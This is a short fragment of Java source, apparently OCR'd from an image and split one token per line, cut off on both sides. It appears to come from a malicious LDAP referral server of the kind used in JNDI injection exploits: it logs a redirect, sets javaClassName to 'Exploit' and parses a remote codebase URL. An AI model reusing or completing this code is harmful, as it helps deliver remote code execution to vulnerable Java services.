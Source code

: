(  
".class"  
));  
  
              
System  
.  
out  
.  
println  
(  
"Send LDAP reference result for "  
  
+  
  
base  
  
+  
  
" redirecting to "  
  
+  
  
turl  
);  
  
              
e  
.  
addAttribute  
(  
"javaClassName",   
"Exploit"  
);  
  
              
String  
  
cbstring  
  
=  
  
this  
.  
codebase  
.  
toString  
();  
  
              
int  
  
refPos  
  
=  
  
cbstring  
.  
indexOf  
(  
'#'  
);  
  